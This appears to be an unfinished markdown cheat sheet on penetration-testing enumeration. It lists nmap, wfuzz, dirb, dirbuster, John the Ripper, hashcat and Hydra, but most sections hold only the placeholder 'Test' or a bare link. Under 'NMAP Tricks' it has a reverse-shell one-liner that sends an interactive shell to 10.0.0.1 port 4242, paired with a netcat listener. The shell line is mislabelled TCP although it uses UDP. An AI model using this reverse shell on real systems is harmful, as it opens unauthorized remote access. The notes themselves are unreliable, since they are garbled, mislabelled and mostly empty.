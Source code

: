 # Enumeration

## Summary
* [NMAP](#NMAP)
   * [](#)
   * [](#)
   * [](#)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
   * [hashcat](#)
   * [Hydra](#)
* [](#)
* [](#)
* [](#)
 

### NMAP
#### NMAP Tricks
```
/usr/share/nmap/scripts | grep smb
```
```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
https://medium.com/bugbountywriteup/how-to-brute-force-efficiently-without-burp-pro-1bb2a414a09f
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```

### Credentials
```
Test
```

### John-the-Ripper
```
Test
```

### Hashcat
```
Test
```

### Hydra
```
Test
```

### 
```
Test
```
